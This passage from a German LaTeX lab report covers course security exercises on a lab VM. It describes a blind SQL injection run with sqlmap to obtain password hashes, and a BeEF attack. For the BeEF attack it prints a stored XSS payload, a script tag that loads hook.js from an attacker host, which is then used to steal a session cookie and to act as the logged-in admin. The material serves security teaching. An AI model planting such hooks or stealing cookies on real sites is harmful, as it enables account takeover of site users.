	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/PW_DB}
	\caption{Passwort-Hashes durch SQL-Injektion}
	\label{fig:sqlPW}
\end{figure}
\noindent
Damit konnten die wesentlichen Informationen aus der Datenbank erfolgreich ausgelesen werden.

\subsection{Blind Injection}
\textit{Das inhaltlich gleiche Blog hat die vorherige Schwachstelle geschlossen und die IP gewechselt (192.168.1.162). Finden Sie dennoch einen Weg sich bspw. den Hashwert des mysql.user root Accounts und den des Admins der Webseite zu sichern? Vorab: es handelt sich hier um eine Blind Injection, erwarten Sie also keine direkte Rückgabe von Werten auf der Webseite. Auch könnten automatische Tools hier Probleme bekommen. Überlegen Sie, wo Blind Injections auf der Webseite vorkommen könnten, auf Basis, wie vermutlich im Hintergrund die Abfrage ausgeführt wird, um die Menge der zu prüfenden Formulare und Abfragen einzugrenzen. Den Aufbau der Datenbank sollten Sie ja aus der vorherigen Teilaufgabe mitgenommen haben.}\\

\noindent Dieser Angriff wird via \texttt{sqlmap} durchgeführt. Gestartet wird mit der parametrisierten Form, zu sehen von \autoref{fig:sql_map_auf_c_1} bis \autoref{fig:sql_map_erfolg}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_1.png}
    \caption{sqlmap: 1/5}
    \label{fig:sql_map_auf_c_1}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_2.png}
    \caption{sqlmap: 2/5}
    \label{fig:sql_map_auf_c_2}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_3.png}
    \caption{sqlmap: 3/5}
    \label{fig:sql_map_auf_c_3}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_auf_c_4.png}
    \caption{sqlmap: 4/5}
    \label{fig:sql_map_auf_c_4}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/c/sql_map_erfolg.png}
    \caption{sqlmap: 5/5}
    \label{fig:sql_map_erfolg}
\end{figure}
\textbf{Was haben wir jetzt eigentlich erreicht?}
% TODO: Was haben wir jetzt eigentlich erreicht?
\section{Beef}
In dieser Aufgabe wurde eine XSS-Attcke mit dem Beef-Frameork durchgeführt.

\subsection{Vorbereitung}
Wir haben die VMs gestartet und unter der 192.168.1.36 die Website von OWASP aufgerufen. Da gibt es einen Blog, bei dem Einträge hinzugefügt werden können. Diese Einträge möchten wir für die XSS Attacke ausnutzen und Schadcode in Form der Hoock einschleusen. Der Hook ist unter http://127.0.0.1:3000/hook.js erreichbar. Entrsprechend wurde ein Blog Eintrag mit dem Inhalt <script src="http://192.168.1.1:3000/hook.js"></script> erstellt. Da dieses script nicht als Text, sondern als tatsächliches Script in die Seite eingebunden wird, ist diser Angriff möglich. Nach kurzer Zeit wurde bei Beef angezeigt, dass ein Zombie existiert. Die Vorbereitung war also erfolgreich.

\subsection{Der erste Angriff}
Im ersten Angriff wurde in Beef ein Angriff auf das Session Coockie ausgeführt. Dazu wurde unter Command der entsprechende Angriff gewählt und ausgeführt. Nach kurzer Zeit wurde das Session-Coockie ausgegeben.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe8/Cookie_diesesmalwirklich.png}
	\caption{Coockie}
	\label{fig:coockie_8}
\end{figure}

\subsection{Der zweite Angriff}
Im zweiten Angriff wurde das Opfer als Proxy verwendet und in seinem Namen eine Anfrage gesendet. Mit Beef ist es möglich eine Anfrage zu bauen und diese im Namen des Opfers auszuführen. Damit wurde die Seite im Namen des Opfers aufgerufen, in der Antwort war dann zu sehen, dass unser Opfer als Admin angemeldet ist. Somit könnten dieser Theoretisch als Admin für Angriffe gebraucht werden.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe8/Prox_seite_Admin.png}
	\caption{Als Admin angemeldet}
	\label{fig:proxy_8}
\end{figure}
\printbibliography
\end{document}
